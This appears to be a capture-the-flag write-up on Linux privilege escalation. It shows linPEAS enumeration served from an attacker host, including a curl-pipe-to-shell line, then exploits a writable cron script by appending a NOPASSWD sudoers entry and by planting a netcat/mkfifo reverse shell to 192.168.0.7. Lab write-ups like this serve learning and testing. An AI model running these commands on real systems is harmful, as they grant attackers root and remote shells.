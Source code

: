 # 9f1f16_privilege_escalation_2

run [linpease](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) enumeration to get information about the system
```
# kali machine
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 8000

# target machine, 10.0.2.197
wget http://192.168.0.7:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh > linpeas_result.txt

# there is another way to execute linpeas.sh
python3 -m http.server 8000 # kali machine
curl http://192.168.0.7:8000/linpeas.sh | sh # target machine


# get the linpeas_result.txt file
# target machine
python3 -m http.server 8000

# kali machine
wget http://10.0.2.197:8000/linpeas_result.txt
```


After analyzing the linpeas_result.txt, we find that the cron job is misconfigured.

`/etc/cron.hourly/cuiteur-cleaning` is free to edit by ```www-data```, let's edit it and add a reverse shell to it.
```
# the first method
echo "www-data ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers

sudo bash # when saved, after 1 miniute, execute this command
find / -name "flag*" 2>/dev/null
/root/flag{9f1f16bf09920a5993c7d9f6674306a3f36d0cf8c29d30}.jpg


# the second method
/bin/rm /tmp/tfl; mkfifo /tmp/tfl; cat /tmp/tfl|/bin/bash -i 2>&1 | nc 192.168.0.7 4444 >/tmp/tfl


nc -lvp 4444 # kali machine

```
